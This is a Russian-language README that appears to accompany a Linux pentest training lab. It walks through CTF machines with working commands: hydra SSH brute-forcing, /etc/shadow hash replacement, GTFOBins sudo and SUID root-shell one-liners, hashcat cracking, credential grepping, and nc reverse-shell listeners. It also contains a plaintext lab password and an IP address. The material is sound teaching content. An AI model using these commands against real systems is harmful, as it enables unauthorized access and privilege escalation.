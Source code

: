 
# Практика Linux

В данной практике речь пойдет о полезных командах и утилитах в Linux которые позволят выполнить Privilege Escalation (PE), подключиться к удаленному хосту по ssh, брутфорсить пароли пользователей, вытаскивать пароли из hashcat, а также перенаправить трафик с помощью netcat.

Все материалы и докер-контейнеры оставлены в данном репозитории, помимо этого написан скрипт автоматической установки docker, настройки и остановки контейнеров (запусткать с sudo).

Если вы делаете данное задание самостоятельно на своей машине, то за место <host> подставляете localhost

## ssh_missconfig:
#### Флаг в /root/flag.txt
В задании указано, что ssh работает на 2222 порту поэтому, можем попробовать подключиться, так как имя учетки не дано, то можно попробовать это сделать под root:
```bash
ssh root@<host> -p 2222
```

Пароль мы не знаем, поэтому на помощь идет гидра и любезно оставленный организаторами файл с паролями:

```bash
hydra -l root -P /path/to/wordlist.txt ssh://<host> -t 4 -V -p 2222
```
Получив пароль от рута коннектимся к машине и читаем флаг в корневой директории рута.

#### Стоит отметить, что аутентификация по паролю встречается редко, еще реже встречается доступ под пользователем root по ssh, обычно ssh настраивается так, чтобы подключение происходило по ключам, а доступ по ssh не дается пользователю root.

## writable_shadow:
#### Флаг в /root/flag.txt
В задании сразу указан пользователь для подключения (mega_user) и 2223 порт, но не указан пароль, поэтому снова используем гидру:
```bash
hydra -l root -P /path/to/wordlist.txt ssh://<host> -t 4 -V -p 2223
```

Получаем пароль от пользователя и заходим на машину.

Тут в дело вступает внимательность, атакующий первым делом должен посмотреть права доступа к критическим файлам и бинарникам (в данном случае у нас открыт на запись и чтение файл /etc/shadow)

#### Файл /etc/shadow хранит хэши паролей пользователей, тем самым они представлены не явно, в идеальном варианте файл /etc/shadow должен быть доступен только пользователю root и никому другому, так как можно подменить хэш любого пользователя.

Используя nano, можно зайти и поменять хэш рута на хэш пользователя mega_user, тем самым мы изменим пароль рута на пароль пользователя mega_user.

```bash
nano /etc/shadow
```

После этого меняем пользователя на root и читаем флаг в директории рута:

```bash
su root
```

## find_me:
#### Флаг где-то спрятан
Данная машина позволит познакомиться с одной из самых полезных и часто используемых утилит для пентеста - nmap.
В задании нам лиш дан ip адрес машины, в таких случаях рекомендуется использовать nmap для просмотра всех открытых портов на данной машине.

```bash
nmap -sC -sV <host> -p-
```
#### Параметр -p- позволяет просканировать все возможные порты. По умолчанию nmap сканирует лишь определенный диапазон портов.

После того как машина будет просканирована, найдем открытый 7913 порт, на котором расположен http-сервер, используя браузер, подключимся к нему.

```bash
http://<host>:7913
http://91.149.223.24:7913
```
Сразу в корне нас будет ожидать флаг.

## sudo_privilege:

#### Флаг в /root/flag.txt
В задании указаны креды для подключения (mega_user:BJJdhGB1ullQ9_hK-gJ972)

Название задание и есть подсказка для решения данной машины, для этого можно вывести список всех программ, которые пользователь может запускать от sudo:

```bash
sudo -l
```

Нам выведется единственная программа, а именно python, зная это можно воспользоваться сайтом [GTFOBins](https://gtfobins.github.io), в котором представлены основные способы поднятия привилегий при неправильной настройки прав доступа.

Ищем эксплойт для python и находим следующее:

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```
Тем самым мы получаем оболочку рута, далее остается только прочитать флаг

#### Права на запуск приложений от sudo следует давать с особой осторожностью, важно помнить, что приложения запущенные от sudo имеют права пользователя root.

## take_my_cert:
#### Флаг в /root/flag.txt и /home/master/flag.txt
В данном задании содержатся два флага, можно найти уязвимость которая позволит получить сразу два флага, один находится в домашней директории пользователя master, а другой в root. Также нам дан закрытый ключ для подключения под пользователем mega_user.

Для начала необходимо скачать закрытый ключ и ограничить права на доступ к нему (иначе ssh будет ругаться):

```bash
chmod 700 /path/to/key
```

Затем подключаемся под пользователем mega_user используя наш ключ:

```bash
ssh -i /path/to/key mega_user@<host> -p 2225
```

Подключившись проверяем директорию /home и видим там еще одного пользователя master, посмотрев содержимое его домашней директории видим там два файла master и master.pub - понимаем что это ssh-ключи, которые оставил данный пользователем открытыми для чтения, т.к для подключения используется закрытый ключ, то скопируем его на нашу машину (можно просто вывести через cat и скопировать). Далее попробуем открыть новое ssh-соединение но уже от пользователя master с новоприобретенным ключом, а далее читаем флаг в его директории.

```bash
ssh -i /path/to/master_key master@<host> -p 2225
```

### Альтернативное решение

Проверим наличие файлов содержащих суидный бит

```bash
find / -type f -perm -u=s -user root -ls 2>/dev/null
```

Нам выведется список файлов, и вновь на помощь приходит [GTFOBins](https://gtfobins.github.io), там мы можем посмотреть список файлов и эксплойтов к ним при установленном флаге suid. Понимаем что бинарник это find, используем эксплойт:

```bash
find . -exec /bin/sh -p \; -quit
```
После этого мы получим оболочку с правами рута, поэтому можем прочитать флаг в его директории :)

### Вот список полезных ссылок про suid, его использование для поднятия привилегий:

- [SUID Executables- Linux Privilege Escalation](https://blog.certcube.com/suid-executables-linux-privilege-escalation/)
- [Я есть root. Повышение привилегий в ОС Linux через SUID/SGID](https://habr.com/ru/companies/jetinfosystems/articles/506750/)
- [Suid - Wikipedia](https://ru.wikipedia.org/wiki/Suid)

## hash_mainkun
Для начала нам дан файл с хэшами и работниками, исходя их этого понимаем, что нужно использовать hashcat и словарь, который прикреплен к заданиям:

```bash
hashcat -m 0 -a 0 /path/to/hashes /path/to/wordlist --show
```

Получаем список паролей, который будем использовать для подключения, для перебора пользователей и паролей будем использовать гидру:

```bash
hydra -L /path/to/workers -P /path/to/wordlist ssh://<host> -t 4 -V -p 2226
```

После подбора кредов подключаемся под пользователем, который подобрался

Попав на машину необходимо отыскать креды пользователя, довольно неприятное занятие если делать это вручную, поэтому воспользуемся командой:

```bash
grep -rn /etc/ -e 'pass' 2>/dev/null
```

Оказывается, что кто-то оставил пароль от рута в sshd_config, используем данный пароль и читаем флаг в /root/flag.txt

## Остальные команды которые обсуждались (или нет) на практике:

- Поднятие сервера на python для прокидывания файлов:
Выполняем на машине, с которой хотим прокинуть файл, для просмотра будет доступна директория с которой была запущена команда
```bash
python3 -m http.server 80
```
На машине, на которую прокидываем файл выполняем
```bash
wget http://<host>/file
```

- Прослушивание порта через nc (очень часто необходимо при прокидывании reverse-shell):
```bash
nc -lvnp <порт>
```
[Генератор reverse-shell](https://www.revshells.com)





